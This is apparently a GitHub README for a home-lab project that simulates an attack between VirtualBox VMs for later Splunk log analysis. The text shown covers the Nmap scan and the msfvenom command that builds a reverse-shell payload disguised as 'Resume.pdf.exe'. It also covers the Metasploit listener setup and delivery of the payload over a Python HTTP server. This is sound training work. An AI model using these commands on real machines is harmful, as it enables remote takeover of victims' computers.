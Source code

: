 # Simulating Cyber Attacks and Log Analysis with VirtualBox and Splunk

## Objective
The project aimed to create a simulated network attack environment using VirtualBox to connect a Windows 10 VM (victim) and a Kali Linux VM (attacker). The primary goal was to execute an attack and analyze the resulting logs with Splunk to understand attack patterns and enhance network security skills.

### Skills Learned

- **Virtual Machine Management:** Setting up and managing virtual machines using Oracle VM VirtualBox.
- **Penetration Testing:** Using Metasploit for vulnerability exploitation and payload delivery.
- **Malware Creation:** Ability to create and deploy custom malware using 'msfvenom' with a reverse TCP payload.
- **SIEM Log Analysis:** Using Splunk for log ingestion, querying, and analysis to detect and investigate suspicious activities.
- **Command-Line Proficiency:** Executing various command-line tools and utilities on both Windows and Linux platforms.
- **Cybersecurity Concepts:** Understanding of attack vectors, defense mechanisms, and network security best practices.

### Tools Used

- Virtualization Software: Oracle VM VirtualBox
- Operating Systems: Windows 10 (Victim) and Kali Linux (Attacker)
- Security Tools: Metasploit Framework, Nmap, Splunk
- Networking: Internal Network Configuration in VirtualBox

## Steps

1. **Network Configuration**:
     * Set both VMs to use an internal network for isolated communication.
     * Verify the connection between the virtual machines using the ping command.
  
2. **Scanning for Open Ports**:
   * On Kali, ran 'Nmap -A 192.168.20.10 -Pn'. This command performs an aggressive scan (-A) on the target IP without pinging the host first (-Pn). It detects open ports, services, OS details, and potential vulnerabilities.
   * After running the command, identified that port 3389 (RDP) is open.

   ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/02ae843a11ce0da73895b2bf4bae0e7cce666d24/Project%20Images/Screenshot%202024-06-28%20131152.png)

3. **Creating Malware**:
     * Used msfvenom to create a malware payload with command 'msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe'.
     * This command generates a Windows executable (-f exe) with a reverse TCP payload that causes the Windows machine to connect back to the attacker's IP on port 4444, and outputs it as 'Resume.pdf.exe'.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/dc126819e54bc31e9c6ad753d6717cc188d76ed8/Project%20Images/Screenshot%202024-06-28%20135945.png)


4. **Setting Up Metasploit Handler**:
     * Opened 'msfconsole' and configured a handler to listen for incoming connections. Achieved this by using command 'use/exploit/multi/handler' and set the payoad and LHOST/LPORT to match the malware configuration.
     * By setting up a metasploit handler, you set up a listener that waits for the victim's machine to connect back to the attacker's machine. This connection is established when the victim executes the malware, allowing the attacker to gain control over the victim's machine through a Meterpreter session.
   
    ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/a14a72e9e432c9ff5b108cdcbaabd5fbb2aca154/Project%20Images/Screenshot%202024-06-28%20211123.png)
    ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/a14a72e9e432c9ff5b108cdcbaabd5fbb2aca154/Project%20Images/Screenshot%202024-06-28%20212126.png)

5. **Delivering Malware**:
     * Set up a simple HTTP server on Kali for file delivery using 'python3 -m http.server 9999'.
     * On Windows VM, disabled antivirus, navigated to the Kali IP on port 9999, downloaded, and executed the malware.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/dc126819e54bc31e9c6ad753d6717cc188d76ed8/Project%20Images/Screenshot%202024-06-28%20135945.png)
